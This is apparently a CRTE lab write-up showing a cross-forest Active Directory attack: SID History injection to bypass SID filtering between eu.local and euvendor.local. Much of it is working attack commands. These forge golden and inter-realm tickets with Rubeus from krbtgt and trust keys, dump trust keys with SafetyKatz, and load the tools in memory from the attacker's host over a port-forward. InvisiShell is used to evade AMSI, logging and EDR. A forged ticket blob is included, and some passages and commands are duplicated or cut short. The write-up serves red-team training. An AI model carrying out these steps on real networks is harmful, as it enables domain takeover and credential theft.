

CRTE - Certified Red Team Expert
Cross Forest Attacks - Injecting SID History to Bypass SID Filtering
When working in multi-forest Active Directory environments, understanding the attack paths available through cross-forest trusts is essential. One technique we must focus on is Injecting SID History to Bypass SID Filtering. This research aims to break down this method and explain the key concepts behind it, so we can later apply it in practice during our lab work.
Every user, group, or computer object in Active Directory has a unique SID (Security Identifier). When an account is migrated from one domain to another, SID History is an attribute that stores the old SID(s). This allows the account to retain access to resources in the old domain without needing permission adjustments.
When we have a trust relationship between two forests, a user from Forest A can be granted access to resources in Forest B. However, Microsoft recognized that this could be abused. If we control Forest A, we could create a user and inject a privileged SID from Forest B (like Domain Admin) into its SID History. When that user accesses Forest B, the SID History would trick Forest B into treating it as a Domain Admin. To prevent this, SID Filtering exists. It is a security mechanism that removes privileged SIDs (RIDs under 1000) when a ticket crosses a forest trust boundary.How SID Filtering Works
When SID Filtering is enabled on a trust (the default on forest and external trusts), it:- Blocks SIDs with RIDs under 1000 (e.g., Domain Admins, Enterprise Admins).
- Allows SIDs with RIDs >= 1000 (user-created groups and users) to pass.
Injecting SID History to Bypass SID Filtering
This attack exploits the fact that SIDs with RIDs >= 1000 are not filtered across a forest trust.Steps to Perform the Attack:
- Compromise Domain Admin in Forest A (eu.local).
- Enumerate groups in Forest B (euvendor.local) to find a privileged group with RID >= 1000 (e.g., EUVendorAdmins).
- Extract the SID of the group in Forest B.
- Clone a legitimate TGT into a Diamond Ticket (stealthier alternative to a Golden Ticket).
- Inject SID History for the SID of EUVendorAdmins into the cloned TGT.
- Pass-the-Ticket (PTT) using the Diamond Ticket.
- Access resources in Forest B as a member of EUVendorAdmins.
Why This Works:
- RID >= 1000 bypasses SID Filtering.
- We appear as a legitimate member of a privileged group in Forest B.
Limitation:
- We don’t get a map of what we can access after injecting the SID. We have to manually request service tickets and try accessing resources.
Key Difference from Trust Key Abuse
The core difference between SID History Injection and Trust Key Abuse is what we gain:
- SID History Injection → We become a privileged group member in the trusted forest and get access based on that group’s permissions.
- Trust Key Abuse → We become a user from our forest, but only get what is explicitly shared with our forest.
When we compromise Domain Admin in a forest, we should immediately enumerate the trusts:
- Check if SID Filtering is enabled to plan for SID History Injection.
- Extract the Trust Key to check for shared resources (Trust Key Abuse).
Forging a Golden Ticket to Access eu.local’s Domain controller (eu-dc.eu.local)
User: krbtgt NTLM: 83ac1bab3e98ce6ed70c9d5841341538 AES256: b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d Let’s start by encoding our Rubeus.exe argument (golden) using ArgSplit.bat file and do the copy/paste into the session were we will be executing Rubeus.exe. Let’s now use Loader.exe to execute Rubeus.exe in the memory and forge the inter-realm Golden ticket and open a new session as eu.local domain Administrator user.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /show /ptt
Let’s now use Loader.exe to execute Rubeus.exe in the memory and forge the inter-realm Golden ticket and open a new session as eu.local domain Administrator user.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /show /ptt

Uploading files into EU-DC$ machine
We will be uploading some files to carry on our enumeration from eu.local domain Controller. Let’s start by uploading InvisiShell. InvisiShell is a tool designed to bypass security controls in PowerShell, allowing for the stealthy execution of scripts by circumventing enhanced logging mechanisms and detection by security software. Here’s a detailed explanation of how InvisiShell works:
- Bypassing PowerShell Security Measures: InvisiShell is specifically created to bypass system-wide transcription, script block logging, and the Anti-Malware Scan Interface (AMSI).
- Hooking .NET Assemblies: InvisiShell achieves its bypass by hooking into the .NET assemblies System.Management.Automation.dll and System.Core.dll.
- Methods of Use: InvisiShell can be launched in two ways, depending on the user's privileges:
- Incapacitating Security Features: By hooking into these .NET assemblies, InvisiShell disables system-wide transcription, AMSI, and script block logging for the current PowerShell session.
- Avoiding Detection: When using InvisiShell, the tool hooks to System.Management.Automation.dll and System.Core.dll, which allows it to avoid system-wide transcription, script block logging, and AMSI.
- Integration with Other Tools: The sources show that InvisiShell can be used in conjunction with other tools, such as PowerUp, PowerView, the AD module, and other PowerShell scripts.
- Clean-up Process: To complete the clean-up, users must type exit in the new PowerShell session created by InvisiShell.
- Modified Version: The class uses a slightly modified version of InvisiShell.
- Location of Tools: All the tools, including InvisiShell, used in the lab environment are located in the C:\AD directory on the student VM. The lab manual also notes that this directory is exempted from Windows Defender, but AMSI may still detect some tools when loaded.
- InvisiShell and Binaries: It is noted that binaries like Rubeus.exe may be inconsistent when used from within an InvisiShell session and should be run from a normal command prompt.
- Example Usage: The lab manual provides examples of using InvisiShell to launch a PowerShell session, import modules, and run commands to exploit a service, bypass AMSI, and extract credentials from a remote machine.
 Let’s upload our .Net loader to the EU-DC$, we will be using this loader to run Rubeus.exe in the memory, avoiding MDI Detection.
We won’t be mapping any driver x as usual because mapping drivers do no work with Cross-Forest Trust, so we can copy the file with the following way.
echo F | XCOPY C:\AD\Tools\Loader.exe \\eu-dc.eu.local\C$\Users\Public\Loader.exe /y
Let’s upload our .Net loader to the EU-DC$, we will be using this loader to run Rubeus.exe in the memory, avoiding MDI Detection.
We won’t be mapping any driver x as usual because mapping drivers do no work with Cross-Forest Trust, so we can copy the file with the following way.
echo F | XCOPY C:\AD\Tools\Loader.exe \\eu-dc.eu.local\C$\Users\Public\Loader.exe /y

NOTE: ADModule is already enabled by default on Domain Controllers, do don’t need to upload. BUT… In case we do not have ADModule enabled by default, we can upload the it using the following way.We should Also upload ADModule for our enumeration with ADModule. echo D | XCOPY C:\AD\Tools\ADModule-master \\EU-DC.eu.local\C$\Users\Public /E /H /C /I /Y

Breaking Down the Command:
- XCOPY → The command for copying files and directories.
- C:\AD\Tools\ADModule-master → The source folder you want to copy.
- \\EU-DC.eu.local\C$\Users\Public → The destination folder.
- /E → Copies all subdirectories, including empty ones.
- /H → Copies hidden and system files.
- /C → Continues copying even if errors occur.
- /I → Assumes the destination is a directory (avoids prompts).
- /Y → Suppresses overwrite confirmation prompts.
 Now that we have uploaded all the files that we will need inside the eu.local DC, let’s start by running InvisiShell to try to bypass PowerShell defense mecanisms like, System-wide transcription, Script Block Logging, AMSI, .
.\RunWithRegistryNonAdmin.bat
Now that we have uploaded all the files that we will need inside the eu.local DC, let’s start by running InvisiShell to try to bypass PowerShell defense mecanisms like, System-wide transcription, Script Block Logging, AMSI, .
.\RunWithRegistryNonAdmin.bat

Now that we were able to execute InvisiShell and we could bypass PowerShell defense mecanisms, we can carry on with our Trusts enumeration that eu.local domain contains.
Enumerating Trust Forests with AD Module
When enumerating a forest trust, the following trust properties help us understand if SID filtering is enabled:- TrustAttributes (Value: 72 / 0x48) → This means TREAT_AS_EXTERNAL + FOREST_TRANSITIVE, which enforces SID Filtering.
- SIDFilteringForestAware: True → Confirms SID filtering is enforced.
- SIDFilteringQuarantined: False → Indicates no additional quarantine filtering, which is typical for forest trusts.

- Direction: Shows the direction of the trust. It can be Inbound, Outbound, or Bidirectional (in this case, Bidirectional).
- DisallowTransitivity: Indicates whether transitive trust is disabled. True means transitivity is blocked, False means transitive trust is allowed.
- DistinguishedName: The LDAP path to the trusted domain object within AD.
- ForestTransitive: Specifies if the trust is forest-wide transitive. True means it allows authentication across the entire forest.
- IntraForest: Indicates whether the trust is within the same forest. True if it is, False if it’s cross-forest.
- IsTreeParent: Specifies if the trusted domain is the parent in a domain tree structure. Typically False in cross-forest trusts.
- IsTreeRoot: Indicates if the trusted domain is a root domain in a tree. Usually False unless it’s a tree-root trust.
- Name: The DNS name of the trusted domain ( euvendor.local).
- ObjectClass: The object type, typically trustedDomain for trust objects.
- ObjectGUID: The unique identifier (GUID) of the trust object in AD.
- SelectiveAuthentication: True if selective authentication is enabled, meaning only specific users are allowed to authenticate across the trust.
- SIDFilteringForestAware: Indicates if SID filtering is enabled with forest awareness. True means SID filtering is enforced to protect against SID history attacks.
- SIDFilteringQuarantined: Shows if SID filtering is in quarantine mode. True means extra restrictions are applied.
- Source: The source domain (your current domain).
- Target: The target trusted domain (euvendor.local).
- TGTDelegation: True if the trust allows TGT delegation (Kerberos delegation across the trust).
- TrustAttributes: A numeric value representing specific trust settings (bitmask).
- TrustedPolicy: Policy details for the trusted domain (often empty unless custom policies are applied).
- TrustingPolicy: Policy details for your domain’s side of the trust (often empty unless custom policies are applied).
- TrustType: Describes the type of trust. Uplevel means it’s a trust with another Active Directory domain.
- UplevelOnly: True if the trust is only for Active Directory domains (not NT4 or legacy systems).
- UsesAESKeys: True if the trust supports AES encryption for Kerberos.
- UsesRC4Encryption: True if the trust supports RC4 encryption for Kerberos.
- TrustAttributes (72 - 0x48) → This tells us SID filtering is enforced due to TREAT_AS_EXTERNAL, which strengthens SID restrictions across the trust.
- SIDFilteringForestAware (True) → Confirms that SID filtering is actively applied to prevent privileged SID injection.
- SIDFilteringQuarantined (False) → Shows that quarantine-level filtering is not applied, meaning default SID filtering rules are in effect.
- SelectiveAuthentication (False) → Indicates users from the trusted domain can authenticate without explicit approval, which could still allow privileged group abuse with RIDs >= 1000.
Enumerating Trusts with PowerView
It is also possible to achieve the same enumeration above by using PowerView module, so let’s Import PowerView into our target. Once again, using Import-Module won’t work fine here since we are using winrs to remotelly access the eu.local domain controller. Let’s use Dot Sourcing to achieve this task. . .\PowerView.ps1 Get-DomainTrust -Verbose
As we can see above, PowerView output seems to be more friendly in my option and it is self-explanatory.
- SourceName – This is the domain we’re currently enumerating from (in this case, eu.local).
- TargetName – This is the domain that our domain trusts (e.g., us.techcorp.local or euvendor.local).
- TrustType – Specifies the type of trust:
- TrustAttributes – Flags describing trust behavior:
- TrustDirection – Describes the flow of trust:
- WhenCreated – Timestamp for when the trust was first created.
- WhenChanged – Timestamp for when the trust was last modified.
Enumerating groups with SID>1000 in euvendor.local with ADModule
We are specifically looking for SIDs with RID > 1000 because SID Filtering is enabled (SIDFilteringForestAware: True). This is a security control that blocks privileged SIDs with RIDs < 1000 (like Domain Admins, Enterprise Admins) from crossing forest trust boundaries. SIDs with RIDs >= 1000 are treated as user-created groups or accounts and are NOT stripped by SID Filtering. That’s the loophole. When SID Filtering is enabled, we can’t inject Domain Admins (RID 512) or Enterprise Admins (RID 519) from euvendor.local because those would be blocked. However, custom privileged groups created by admins in euvendor.local (like ITAdmins, ServerAdmins, DBA Group, etc.) often have RIDs >= 1000. Those SIDs are not filtered, so if we inject one of them into our SIDHistory, we can impersonate a privileged group member in euvendor.local.
We will need our target Domain SID and this can be easily enumerated using ADModule as well. I’ll be getting both eu.local and euvendor.local Domain SIDs. Get-ADDomain | Select-Object Name, DomainSID Get-ADDomain -Server 'euvendor.local' | Select-Object Name, DomainSID Now that we do have our target Domain SID, we can enumerate for Groups with RIDs greater than 1000 on euvendor.local.
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server 'euvendor.local'
Now that we do have our target Domain SID, we can enumerate for Groups with RIDs greater than 1000 on euvendor.local.
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server 'euvendor.local'

In euvendor.local, there are three notable groups with RIDs greater than 1000. The DnsAdmins group has a RID of 1101, which is often privileged as it can control the DNS service, sometimes leading to command execution on domain controllers. The DnsUpdateProxy group has a RID of 1102, but it's generally low-privileged and not usually interesting from an attack perspective. The most important finding is the EUAdmins group, with a RID of 1103. This group sounds like it might have administrative rights within the euvendor.local domain. Since its RID is over 1000, it’s a perfect candidate for SID History Injection. If we inject this group’s SID into our ticket, we can likely escalate our privileges within euvendor.local and potentially gain control over the forest. This is the kind of high-value group we were hoping to find during our enumeration.
Enumerating Computers in euvendor.local with ADModule
Since we do have a Bidirectional Cross-forest Trust between eu.local and euvendor.local, we can also, enumerate if there are some computer’s inside euvendor.local forest as well. Get-ADComputer -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server 'euvendor.local' I’s is possible to see that, inside euvendor.local we do have EUVENDOR-DC and EUVENDOR-NET computers.
I’s is possible to see that, inside euvendor.local we do have EUVENDOR-DC and EUVENDOR-NET computers.
Portforwarding to bypass EDR
What If we simply download and execute Rubeus in memory now using our Loader.exe on the target machine? We could simply run Rubeus calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like SafetyKatz can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like Rubeus directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Network Traffic Monitoring: When Rubeus is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- LSASS Process Access is a Red Flag: Tools like SafetyKatz attempt to access the LSASS process to extract credentials from memory. This is a highly suspicious activity that will easily be detected and is a major indicator of a malicious attack.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:
 netsh interface portproxy add v4tov4:
netsh interface portproxy add v4tov4:
- netsh interface portproxy: This is the part of the netsh utility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.
- add: Specifies that you're adding a new forwarding rule.
- v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port 8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
- 0.0.0.0 means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port 80 (commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).

Hosting Rubeus.exe
We should be hosting our SafetyKatz and Rubeus in our attacking host. This will be requested by our Target EU-DC$.
Disabling Defender
Before we carry on with our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining. Last but not least first start by encoding our Safetykatz argument (lsadump::trust) using ArgSplit.bat file and copy/paste the encoded argument into US-DC host where we will be running SafetyKatz.
ArgSplit.bat
Last but not least first start by encoding our Safetykatz argument (lsadump::trust) using ArgSplit.bat file and copy/paste the encoded argument into US-DC host where we will be running SafetyKatz.
ArgSplit.bat
 We should now be able to execute SafetyKatz on the DC and request for the Trust Key for eu.local to euvendor.local.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"
We should now be able to execute SafetyKatz on the DC and request for the Trust Key for eu.local to euvendor.local.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"

Domain: EUVENDOR.LOCAL (EUVENDOR / S-1-5-21-4066061358-3942393892-617142613)
[ In ] EU.LOCAL -> EUVENDOR.LOCAL
Forging the Inter-Real TGT Ticket
The next logical step is to forge an inter-realm ticket between eu.local and euvendor.local. Since we identified that the EUAdmins group in euvendor.local has a RID of 1103, and we know that RIDs >= 1000 bypass SID Filtering, this group is an ideal target. We will create a silver ticket, and inject the SID of the EUAdmins group into the SIDHistory field. This will allow us to impersonate a member of EUAdmins when accessing resources in euvendor.local. Once the ticket is forged and injected into memory, we can proceed to request service tickets and attempt to access high-value resources within the euvendor.local domain, effectively escalating our privileges in the target forest. This is where the real validation of our SID History attack will happen. Now let’s first start by encoding our Safetykatz argument (silver) using ArgSplit.bat file and copy/paste the encoded argument into US-DC$ host where we will be running Rubeus. ArgSplit.bat We will inject the SID History for the EUAdmins group as that is allowed across the trust
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /user:administrator /ldap /service:krbtgt/eu.local /aes256:2c8c05ef394af2aa26aac788c26970dff4308059f9acaa4494d37ee068a65486 /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /nowrap
We will inject the SID History for the EUAdmins group as that is allowed across the trust
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /user:administrator /ldap /service:krbtgt/eu.local /aes256:2c8c05ef394af2aa26aac788c26970dff4308059f9acaa4494d37ee068a65486 /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /nowrap

doIFTzCCBUugAwIBBaEDAgEWooIESDCCBERhggRAMIIEPKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCBAgwggQEoAMCARKhAwIBA6KCA/YEggPyHXXz9s57/ZjbqthMCEedUvxpq92shkWvxf/2mYniNoFC0Ua8vkn8GEtYJJEMoUOwWLgPLLJUydSBSCmgxjjSaZiVpem5vcvGJwAfLnzGW0MBPp7oer/LWZNVt0uDjNZYbKy+9dSWj1WOPHIxzxke4zIMKBp7z2XCrbCBuKewMBmqsgqpz4QfHBer8RteGl4Q6QySiabF1C8rM4ue6m03twLs25Fiv1f2pCG8gpbn9at2YYNRmjDVcrRRgVFzQx1kG0mBgvGSRirjYRumaAhVf7hk48ojOKZjMz/5RBIhYO3TKTcEhPrBuJYqkF5tsWgnIbknjjzeFj1CZb8gobDOsd+FZSNjOLoUthZxJPpToAl7VR5jEZcG2pgRQtiiEMeqoAKN9h0D/neZ41lHXdoJhBo8LDUHG2J8jV3oYNPkceyaF0kQToClSSXBFCQMlrc7BbNDY3LGI94+vCEHlWH+/8plw3jEec0+qn7YLV0em6MDAYvKXW63BKaQIp0Zyo6eJHOM2i3Z03kk8LqhW23/Z3xXQaZHLTEopsnfd7KFGuLvUcsVvzk0kGoeTXrTO+gxoOJ4P4zOSAWCohUpoBHKP2HaMr+1365ltjYaZJdgPgWtQkQ6eTg3hMhgR7J2eEXv/z15TqRA13MjAe5kte5Mknu3YdwlbcZye+SqZaLboum7QYteTyafBcptGJCNM/NjBHiA0juH6KdvlLoSVsmDZ5oelRtz7oCLSiOXWWoTLhE/g4KJZAKPI0roF/4PmBpRqGBkuRabNs04VcdZSfn/rMTszcdzGAtoxV2iZ8tRzjUrtws0RNExH5lLz8QsqDl5JKJcVORqihmgZUrgBVAYSKrBQP2WGF/vpVXgM2usBnvYkDY0ctYvY1MOOwr3pncE6ijQC/4E10p18AeJ4eu8zS8g0fiBvkB7T+LEhDkmyK7ZeWv7hXdSAUbKlH5Ir6/OY/Z58hiEuszlbFIXcfcaUDsEnkCly4svAa/imVT92Ye/yZv0JsIOP154JwSbFfPnqmwAQkltEff8ECP5h+oBYkl7mjQiJ46+RtbHZDa2S3sWnJ6T4sfLgy4JgNKIzh4EchhTJLycvtLdqBO0+V8SEftasFe+4EVRWKIu8cJSY5D9Ra71YvNLLSoP0x9v7qffogYJ0/w744ciDYWlsIc2Sdtnmc0pBQU1Sk0YVbKxTHtaR+AS7s5KhIqxy0XqBR37RI1mVPkBhghDgTrTNhTJ5IzIVspDRj86JLWSnVEF4KbCsJVzuO02lYvH1qLRnqOniDllubtj0Rpvt/thNbVAgQyZuJt+H9MXZjT29qUIwnIrhrYlhe6OMG1+37QZ2isd/JejgfIwge+gAwIBAKKB5wSB5H2B4TCB3qCB2zCB2DCB1aArMCmgAwIBEqEiBCATN/kWbtS5Yy8THpl7ZheVA1Df2NhUO90qVcEl5wyjYqEKGwhFVS5MT0NBTKIaMBigAwIBAaERMA8bDWFkbWluaXN0cmF0b3KjBwMFAECgAACkERgPMjAyNTAyMjAyMzAzMzhapREYDzIwMjUwMjIwMjMwMzM4WqYRGA8yMDI1MDIyMTA5MDMzOFqnERgPMjAyNTAyMjcyMzAzMzhaqAobCEVVLkxPQ0FMqR0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbA==
- %Pwn%: This is just a placeholder for the encoded string "silver," which tells Rubeus that we are forging a Silver Ticket (service ticket).
- /user:administrator: The username we are impersonating. This is the user that will appear in the forged ticket.
- /ldap: The service we are targeting. This is the SPN (Service Principal Name), meaning we are forging a ticket for the LDAP service on the target domain.
- /service:krbtgt/eu.local: The target service account we are impersonating. This is the krbtgt account for the eu.local domain because we are forging a ticket that will act within this domain.
- /aes256:2c8c05ef394af2aa26aac788c26970dff4308059f9acaa4494d37ee068a65486: This is the trust key (AES256 key) used in the inter-realm trust between eu.local and euvendor.local. It allows us to forge a valid cross-forest ticket that will be accepted across the trust boundary.
- /sids:S-1-5-21-4066061358-3942393892-617142613-1103: This is the SID we are injecting into the SIDHistory attribute. It represents the EUAdmins group (RID 1103) from the euvendor.local domain. Since RIDs >= 1000 bypass SID Filtering, this injection makes us appear as a member of EUAdmins in euvendor.local.
- /nowrap: This is a cosmetic flag that removes the line wrapping in the Rubeus output, making it easier to read.
Requesting a Service Ticket for euvendor-net
Using the inter-realm TGT that we created above, the next step is to request a TGS for the HTTP service on the euvendor-net machine. This will allow us to check if our injected SID History grants us access to this specific service. The goal here is to see if our impersonation of a privileged group, such as EUAdmins, is effective and gives us the necessary permissions to interact with the target machine. Successfully obtaining the TGS will validate that our SID History injection is working as intended, and it will enable us to proceed with accessing the service or performing further actions on euvendor-net using the privileges associated with EUAdmins. This is a crucial step in confirming our access level within the euvendor.local domain.
We should encode the Rubeus argument(asktgs) with ArgSplit.bat and do the copy/paste into our session were Rubeus will be executed. ArgSplit.bat Running Rubeus.
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:http/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:
Running Rubeus.
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:http/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket: We can now confirm that we were able to request the Ticket Granting Service ticket and imported it to our session using the klist command.
klist
We can now confirm that we were able to request the Ticket Granting Service ticket and imported it to our session using the klist command.
klist
 After forging the inter-realm TGT and injecting the SID History for the EUAdmins group (RID 1103), we had to request a Service Ticket (TGS) for euvendor-net because the TGT alone does not provide direct access to resources. We can now access the euvendor-net inside euvendor.local forest using winrs.
winrs -r:euvendor-net.euvendor.local cmd
After forging the inter-realm TGT and injecting the SID History for the EUAdmins group (RID 1103), we had to request a Service Ticket (TGS) for euvendor-net because the TGT alone does not provide direct access to resources. We can now access the euvendor-net inside euvendor.local forest using winrs.
winrs -r:euvendor-net.euvendor.local cmd
